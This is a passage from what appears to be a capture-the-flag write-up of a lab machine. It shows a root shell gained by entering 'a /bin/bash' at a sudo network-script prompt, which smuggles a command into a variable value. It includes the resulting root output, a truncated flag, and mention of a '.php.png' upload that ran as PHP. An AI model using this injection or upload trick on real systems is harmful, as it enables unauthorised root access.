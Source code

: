 

### Shell

What I've stumbled upon is an error reported on
[seclists](https://seclists.org/fulldisclosure/2019/Apr/24) in April.
Anything after a space in a value in a network script where the format
is `VARIABLE=value` will be executed. The [response to that
disclosure](https://seclists.org/fulldisclosure/2019/Apr/27) was that
anyone who can write that file is basically root anyway, so it doesn't
matter.

The regex check at the start of the script prevents me from doing
anything too complicated, but it doesn't prevent me from getting a
simple shell:



    [guly@networked ~]$ sudo /usr/local/sbin/changename.sh
    interface NAME:
    0xdf
    interface PROXY_METHOD:
    a /bin/bash
    interface BROWSER_ONLY:
    b
    interface BOOTPROTO:
    c
    [root@networked network-scripts]# id 
    uid=0(root) gid=0(root) groups=0(root)



I can now grab `root.txt`:



    [root@networked ~]# cat root.txt 
    0a8ecda8...



## Beyond Root - PHP Misconfiguration

In gaining an initial foothold, I uploaded a file `10_10_14_5.php.png`,
and the webserver treated it as PHP code and ran it. I shared [this
link](https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-AddHandler)
earlier. I wanted to look at the Apache configuration to see how it
compared to that in the article.

The Apache config files are stored in`/etc/httpd/`. The main config is
`/etc/httpd/conf/httpd.conf`, but it's last lines are:



    # Supplemental configuration
    #
    # Load config files in the "/etc/httpd/conf.d" directory, if any.
    IncludeOptional conf.d/*.conf
